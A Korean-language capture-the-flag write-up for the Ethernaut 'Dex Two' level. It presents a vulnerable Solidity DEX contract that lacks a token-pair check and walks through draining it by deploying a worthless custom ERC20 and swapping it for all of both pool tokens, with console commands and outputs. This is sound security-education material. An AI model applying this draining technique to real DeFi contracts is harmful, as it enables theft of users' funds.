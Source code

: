 https://teberr.notion.site/Ethernaut-Dex-Two-923f79f12a3745a9964f65a169a9d1d5

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8935d4fb-aa71-4c30-b9c4-81e97cff7bb8/Untitled.png)

> 이 문제의 목표는 가격 조작을 통해 기초적인 DEX 컨트랙트를 해킹하고 자산을 빼내는 것입니다.

token1과 token2를 각각 10개씩 가지고 시작하며 DEX 컨트랙트에는 각 토큰이 100개씩 존재하고 있습니다.

컨트랙트에서 token1과 token2를 전부 탈취해 주세요.

기존의 DEX 컨트랙트에서 조금 수정된 DexTwo 컨트랙트 이므로 수정된 부분을 자세히 보면 힌트가 보일겁니다.
> 

 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

# 코드 분석 및 공격 설계

이번 문제는 기존의 DEX 문제에서 swap 함수를 미묘하게 변경해 놓았다. 보통 DEX에서 버전이 올라갈 수록 가격 설정 함수가 바뀐다는 걸 생각해보면 가격 설정 함수를 바꿔야 할텐데 이상한 곳을 바꿔놓았다;;

여하튼 가격 설정 함수는 똑같으므로 여전히 DEX에 있는 token(to)/token(from)의 비율대로 교환해준다.  ex) DEX에 from이 1개고 to가 100개면 from 토큰 1개로 to token 100개 얻을 수 있음.

기존의 DEX 컨트랙트에서의 swap 함수를 살펴보자.

```solidity
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

그럼 DexTwo 에서의 Swap 함수를 살펴보자.

```solidity
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 
```

require문이 하나가 줄어든 것을 확인할 수 있다.

없어진 require문은 `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`이다.

아마 이 DexTwo 컨트랙트는 기존 Dex 컨트랙트에서 고정된 token1과 token2만 교환할 수 있었던 것과 다르게 다양한 토큰을 교환할 수 있도록 기능을 제공하고 싶었던 것 같다.

그렇다면 이 DEX에 내가 임의의 ERC20 토큰을 만들어서 유동성을 공급하고 DEX에 공급한 ERC20 토큰으로 token1과 스왑하면 ERC20 토큰으로 token1을 전부 빼낼 수 있을 것이다.

마찬가지 방법으로 token2도 전부 빼낸다면 문제의 조건을 해결할 수 있다.

# 공격

![임시 ERC20 토큰.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2a9f4895-74f9-4f53-8f55-d4103176febc/%EC%9E%84%EC%8B%9C_ERC20_%ED%86%A0%ED%81%B0.png)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract SwappableTokenTwo is ERC20 {

  constructor(string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

간단한 ERC20 토큰을 만들고 총 100개를 발행하자. 

이제 이 토큰을 DEX에 유동성 공급을 위해 1개를 전송할 것이다. 그러면 DEX에는 자산이 다음과 같이 있게 된다.

- token1 : 100개
- token2 : 100개
- 내가 만든 토큰 : 1개

그러면 가격 설정 함수로 인해 내가만든 토큰 1개는 token1 100개의 가치를 갖게 된다.(token2 100개의 가치도 됨)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e39bc340-120c-48f4-b0a0-83f9896081ab/Untitled.png)

transfer 함수를 통해 DEX 컨트랙트에 1개를 전송하여 유동성을 공급해주자.

이를 실제로 DEX 컨트랙트에서 확인해보자.

```solidity
await contract.token1()
'0x6118489a4bcaa95CD50f12adD235B966402693ee'
await contract.token2()
'0x49A3e03898D96aE12728711Eb63cB12261eF8652'

(await contract.getSwapAmount('0x429C997060bf106bC948821B89eBdFFd38ADbe70',await contract.token1(),1)).toNumber()
-> 100
```

내가 만든 토큰 1개로 token1을 100개 탈취할 수 있음을 확인할 수 있다. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/99238247-8026-4bcd-98dc-6b1fbeb25b62/Untitled.png)

DEX에서 내가 가진 토큰을 transferFrom 함수를 이용하여 전송하며 스왑해줘야 하므로 approve를 해주자. 넉넉하게 민팅한 전부인 100개로 해주었다.

그리고 내가 가진 토큰 1개로 swap을 진행해주자.

```solidity
await contract.swap('0x429C997060bf106bC948821B89eBdFFd38ADbe70',await contract.token1(),1)
-> 내 토큰 1개로 token1 100개와 swap
(await contract.balanceOf(await contract.token1(),player)).toNumber()
-> 110
```

DEX에서 token1을 전부 탈취하여 내가 token1을 100개 가지고 있는 것을 확인했다.

이제 DEX에는 내가 만든 토큰 2개와 token2 100개가 존재한다. 그렇다면 DEX의 계산식에 따라 내가 만든 토큰 2개는 token2 100개와 같은 가치를 가지게 될 것이다. 

```solidity
(await contract.getSwapAmount('0x429C997060bf106bC948821B89eBdFFd38ADbe70',await contract.token2(),2)).toNumber()
-> 100
```

내가 만든 토큰 2개로 token2 100개와 swap을 진행하자.

```solidity
await contract.swap('0x429C997060bf106bC948821B89eBdFFd38ADbe70',await contract.token2(),2)
-> 내 토큰 2개로 token2 100개와 swap
(await contract.balanceOf(await contract.token2(),player)).toNumber()
-> 110
```

DEX에서 token1 100개와 token2 100개를 탈취하는데 성공하였으므로 인스턴스를 제출해준다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b5003893-b509-4069-ad7c-3ce9bb822c9c/Untitled.png)

# 후기

컨트랙트가 ERC20스펙을 구현한다는 것이 신뢰할 수 있다는 것은 아니다. 몇몇 토큰은 transfer함수에서 bool 값을 반환하지 않는 등 스펙에서 벗어난다. [https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca) 을 보면 반환값이 누락되는 버그가 최소 130개이상의 토큰에서 발생하는 것으로 보고되고 있다.

특히 공격자가 설계한 ERC20 토큰의 경우 악의적으로 작동할 수 있기 때문에 누구나 DEX에 임의의 토큰으로 유동성을 공급하고 그와 관련하여 SWAP을 진행하게 되는 경우 조심해야 한다.
